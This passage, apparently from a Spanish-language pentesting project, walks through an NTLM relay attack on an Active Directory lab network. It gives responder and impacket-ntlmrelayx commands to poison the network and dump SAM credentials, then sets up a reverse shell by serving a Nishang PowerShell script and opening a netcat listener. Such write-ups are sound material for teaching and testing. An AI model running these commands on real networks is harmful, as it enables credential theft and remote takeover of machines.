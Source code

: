 Si tras ejecutar la herramienta al lado del nombre indica `(Pwn3d!)` significa que puede obtener toda la información de ese equipo, como la SAM o ejecutar comandos. En este caso nos permite obtener la información de los usuarios jcaballero2 y jcaballero3.

Tras analizar a que equipos se puede conectar con las credenciales válidas se puede realizar un ataque de NTLMRelay, en este trabajo, a diferencia sobre otros proyectos, se verán las dos posibilidades de ataque, sobre IPv4 e IPv6.

## IPV4 

Para realizar este tipo de ataque se debe envenenar toda la red con el fin de obtener las credenciales administradoras de un usuario y redirigirlas hacía los objetivos sobre los que tiene privilegios, para ello, se utiliza la herramienta responder para el envenenamiento de la red de recursos no encontrados e [**impacket-ntmlrelayx**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/ntlmrelayx.py) para redirigir las credenciales hacia los objetivos, una vez un usuario administrador intente obtener un recurso no disponible, se puede obtener la SAM del equipo objetivo.

```bash
responder -I ens33 -rdw
```

```bash
impacket-ntlmrelayx -tf target.txt -smb2support
```

En el comando de impacket-ntlmrelayx se le envía un archivo con las ip de las posibles víctimas y se da soporte a la versión 2 del protocolo SMB. Y este devuelve el resultado de la SAM donde se almacenan las credenciales de los usuarios. 

![SAM impacket-ntlmrelayx](ntlmrelayx.png){: width="972" height="589" }
_SAM impacket-ntlmrelayx_

También es posible ejecutar comandos desde el impacket-ntlmrelayx con las credenciales facilitadas, pudiendo descargar un script malicioso compartido por el pentester, que permita la ejecución de una reverse shell. 

Se inicia la herramienta responder, con el comando:

```bash
responder -I ens33 -rdw
```

Se inicia un servidor en Python con los archivos de la carpeta donde se tiene el [**script malicioso**](https://github.com/samratashok/nishang/blob/414ee1104526d7057f9adaeee196d91ae447283e/Shells/Invoke-PowerShellTcp.ps1), que envía una poweshell por TCP al atacante, con el módulo `SimpleHTTPServer`.

```bash
python -m SimpleHTTPServer
```

Se espera la conexión remota en el puerto 4444.

```bash
rlwrap nc -nlvp 4444
```
